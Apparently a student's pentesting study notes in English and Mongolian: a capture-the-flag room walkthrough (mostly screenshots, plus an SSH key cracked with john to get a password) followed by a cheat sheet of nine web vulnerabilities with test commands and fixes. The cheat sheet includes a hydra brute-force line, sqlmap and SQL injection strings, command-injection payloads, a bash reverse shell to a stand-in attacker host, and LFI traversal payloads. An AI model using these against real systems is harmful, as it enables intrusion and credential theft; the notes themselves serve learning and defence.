# basic pentesting 

1. 

## What is the name of the hidden directory on the web server(enter name without /)?
1. 

What is the username? 

1. 


1. 




What is the password?
anonymous passwordgu bsn buguud anonymousiin medeelelees staff.txt g olj awaad uzhed k bolon j gsn 2 hunii buten neriig olj chadsan

1. 




What service do you use to access the server(answer in abbreviation in all caps)?

1. 

What is the name of the other user you found(all lower case)?
1. 



What is the final password you obtain?

1. 


1. private key aa id gsn filed hadgalad john ashiglaj hash.txt convert hiiged beeswax gsn password olj chadsan



1. 


# vulneb

Weak/default credentials (сул нэвтрэх үг/нэр)

Тайлбар: Админ/FTP/SSH/вэб апп-д энгийн үгс (admin:admin, 1234, password) хэрэглэсэн.

Яаж шалгах: hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10

Засах: Хүчтэй, унік нууц үг, MFA, rate-limit, lockout.

2. Directory listing / Sensitive files exposed

Тайлбар: /backup/, /uploads/, .git/ зэрэг directory listing идэвхтэй эсвэл config файлууд вебээр ил байна.

Шалгах: curl http://target/.git/config эсвэл шугам gobuster dir -u http://target -w common.txt

Засах: Directory listing унтраах, .git хандалтыг хаах, конфиг файлуудыг вэб-д тавихгүй.

3. SQL Injection (SQLi) — (Classic)

Тайлбар: input validate хийхгүйгээс SQL query-руу инжект хийн data extract хийх боломжтой.

Шалгах: '?id=1' → ' OR '1'='1 ; автомат: sqlmap -u 'http://target/item?id=1' --dbs

Засах: Prepared statements / parameterized queries, input validation, least privilege DB user.

4. Command injection / RCE (remote code exec)

Тайлбар: хэрэглэгчийн оруулсан өгөгдлийг shell команд руу шууд оруулдаг бол RCE.

Шалгах: URL-д ;cat /etc/passwd эсвэл | ls оруулах; reverse shell: nc -lvnp 4444 болон ;bash -i >& /dev/tcp/ATTACKER/4444 0>&1

Засах: Input sanitization, escaping, use safe APIs (no system/exec with user input), least privilege.

5. File upload (unrestricted)

Тайлбар: веб file upload зөвшөөрч, content-type/extension-г шалгахгүй бол webshell байршуулж RCE хийх боломж.

Шалгах: .php webshell эсвэл double extension shell.php.jpg турших; сүлжээ дамжуулалт, access uploaded folder.

Засах: Filename/extension whitelist, MIME check, store outside webroot, rename, scan, set restrictive permissions.

6. Local File Inclusion / Remote File Inclusion (LFI/RFI)

Тайлбар: include($_GET['page']); гэх мэт кодоос файлыг include хийвэл /etc/passwd авах, log poisoning, RCE.

Шалгах: ?page=../../../../etc/passwd эсвэл log-based ?page=php://filter/convert.base64-encode/resource=index.php

Засах: Whitelist allowed pages, canonicalize paths, disable allow_url_include, use framework routing.

7. Cross-Site Scripting (XSS) — Reflected/Stored

Тайлбар: input output-ийг escape хийхгүй даруулбал JS injection.

Шалгах: "> эсвэл Burp Repeater.

Засах: Output encoding/escaping, Content-Security-Policy, input validation.

8. Insecure deserialization

Тайлбар: сериализсэн өгөгдлийг validate хийлгүйгээр unserialize хийгээд code execution.

Шалгах: known gadget chains (хэт advanced), CTF-тэй ихэнхдээ php unserialize exploit.

Засах: Битүүмжлэх, validate type/signature, avoid unserialize on untrusted input.

9. Authentication / Authorization flaws (IDOR, broken access control)

Тайлбар: өөрийн user id-ийг өөрчилж бусдын мэдээлэл авах (e.g., /user?id=2).

Шалгах: URL parameter өөрчлөх, token reuse, sudo -l админий эрх шалгах.

Засах: Server-side access control checks on every request, role checks.

